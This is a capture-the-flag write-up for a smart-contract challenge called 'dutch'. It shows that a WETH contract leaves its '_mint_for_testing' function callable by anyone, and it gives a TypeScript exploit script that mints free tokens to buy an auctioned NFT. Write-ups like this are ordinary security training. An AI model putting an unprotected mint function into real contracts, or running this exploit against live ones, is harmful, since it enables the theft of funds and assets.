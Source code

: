 ## dutch

### description

Dutch auctions are great for NFTs. Can you become the highest bidder?

### solution

In [Deploy.s.sol](../dutch/challenge//project/script/Deploy.s.sol), we could find that the `staringPrice` of the NFT is `1 ether` in `WETH`

```solidity
    args = abi.encode(1 ether, 1 ether / uint256(7 days), art, 0, address(weth));
    IAuction auction = IAuction(deploy("src/", "Auction", args));
```

In [WETH.vy](../dutch//challenge/project/src/WETH.vy), `_mint_for_testing` is an external function. We could call it to mint WETH.

```python
@external
def _mint_for_testing(_target: address, _value: uint256) -> bool:
    self.total_supply += _value
    self.balanceOf[_target] += _value
    log Transfer(empty(address), _target, _value)

    return True
```

And we may find the goal of this challenge in [Challenge.sol](../dutch/challenge/project/src/Challenge.sol).

```solidity
function isSolved() external view returns (bool) {
    return art.balanceOf(address(auction)) == 0;
}
```

It implies that we may simply mint `WETH` token ourselves and buy the NFT directly.

### scripts

```typescript
// pwn.ts
async function main() {
  const signer = await ethers.provider.getSigner();

  const challengeContract = await ethers.getContractAt(
    CHAL_ABI,
    process.env.CHAL_CONTRACT!
  );

  const auctionAddr = await challengeContract.auction();
  const auctionContract = await ethers.getContractAt(AUCTION_ABI, auctionAddr);

  const tokenAddr = await auctionContract.token();
  const tokenContract = await ethers.getContractAt(WETH_ABI, tokenAddr);

  const price = await auctionContract.getPrice();

  const tx = await tokenContract._mint_for_testing(signer.address, price);
  await tx.wait();

  const approveTx = await tokenContract
    .connect(signer)
    .approve(auctionAddr, price);
  await approveTx.wait();

  await auctionContract.connect(signer).buy();
}
```
